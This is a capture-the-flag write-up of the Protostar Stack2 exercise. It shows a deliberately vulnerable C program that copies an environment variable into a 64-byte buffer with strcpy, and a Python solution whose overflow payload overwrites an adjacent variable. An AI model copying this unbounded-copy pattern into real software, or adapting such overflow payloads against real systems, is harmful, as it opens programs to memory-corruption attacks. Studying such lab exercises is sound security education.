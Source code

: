 #### Protostar Stack2 

##### About
Stack2 looks at environment variables, and how they can be set. 
  
This level is at /opt/protostar/bin/stack2

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

##### Solution
```
$ python
......
>>> import os
>>> envval = 'A'*64 + '\x0a\x0d\x0a\x0d'
>>> os.putenv("GREENIE", envval)
>>> os.system("./stack2")
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>
